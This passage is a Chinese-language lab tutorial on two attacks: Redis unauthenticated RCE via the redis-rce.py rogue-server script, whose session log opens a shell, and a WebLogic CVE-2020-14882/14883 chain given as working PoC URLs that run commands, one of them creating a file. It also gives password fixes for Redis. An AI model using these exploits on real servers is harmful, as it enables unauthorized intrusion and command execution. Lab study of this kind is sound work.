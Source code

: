 下载[工具](https://github.com/puckiestyle/RedisModules-ExecuteCommand)在src目录下编译出module.so放到[redis-rce.py](https://github.com/Ridter/redis-rce)脚本同目录下。-r是目标机器ip，-L为本机ip。输入i获得交互式shell，输入r反弹shell。

```bash
root@NC:/mnt/f/file/RedisModules-ExecuteCommand-master/src# make
root@NC:/mnt/f/file/redis-rce-master# python3 redis-rce.py -r 192.168.211.129 -L 172.31.231.118 -f module.so
[*] Connecting to  192.168.211.129:6379...
[*] Sending SLAVEOF command to server
[+] Accepted connection from 192.168.211.129:6379
[*] Setting filename
[+] Accepted connection from 192.168.211.129:6379
[*] Start listening on 172.31.231.118:21000
[*] Tring to run payload
[+] Accepted connection from 172.31.224.1:15327
[*] Closing rogue server...
[+] What do u want ? [i]nteractive shell or [r]everse shell or [e]xit: i
[+] Interactive shell open , use "exit" to exit...
$ id
Juid=999(redis) gid=999(redis) groups=999(redis)
```

### 漏洞修复

1. 通过配置文件`redis.conf`设置密码。在requirepass关键字后面设置密码，并取消注释掉
2. 通过命令设置密码。使用redis-cli连接上redis，执行如下命令`config set requirepass 123456`

# Weblogic未授权访问

Weblogic是Oracle公司推出的J2EE应用服务器。CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台。CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可以进行命令执行操作

## 环境搭建

```bash
root@kali:~/桌面/vulhub-master/weblogic/CVE-2020-14882# docker-compose up -d
```

## 漏洞利用

在未登录的情况下访问url，即可未授权访问到管理后台页面，将`../`进行两次url编码后的得到poc：

```
http://192.168.211.129:7001/console/css/%252e%252e%252fconsole.portal
```

在未登录的情况下访问url，访问成功后页面回显404但已经执行linux创建文件命令，在靶机上`docker exec -ti id bash`加入对应容器后查看/tmp目录验证，poc：

```
http://192.168.211.129:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch%20/tmp/1.txt%27);%22);
```
